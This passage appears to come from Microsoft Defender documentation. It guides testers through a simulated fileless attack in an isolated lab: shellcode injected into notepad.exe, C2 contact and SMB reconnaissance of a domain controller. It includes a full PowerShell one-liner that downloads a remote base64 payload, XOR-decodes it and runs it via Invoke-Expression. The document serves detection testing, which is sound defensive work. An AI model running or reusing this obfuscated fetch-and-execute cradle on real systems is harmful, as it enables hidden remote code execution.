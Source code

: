 You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection. The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices. This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory. They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution. Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script. In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network. Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.

:::image type="content" source="/defender/media/mtp/mtpdiydiagram.png" alt-text="The Fileless PowerShell attack with process injection and SMB reconnaissance attack" lightbox="/defender/media/mtp/mtpdiydiagram.png":::

During the simulation, the attack injects shellcode into a seemingly innocent process. The scenario requires the use of notepad.exe. We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe. The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed. The script attempts executing reconnaissance queries against the domain controller (DC). Reconnaissance allows an attacker to get information about recent user login information. Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

> [!IMPORTANT]
> For optimum results, follow the attack simulation instructions as closely as possible.

### Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

1. Ensure that your pilot environment includes the isolated AD DS domain controller and Windows device.

2. Sign in to the test device with the test user account.

3. Open a Windows PowerShell window on the test device.

4. Copy the following simulation script:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
   ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
   $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks. If this is the case, download this document and open it on Adobe Reader.
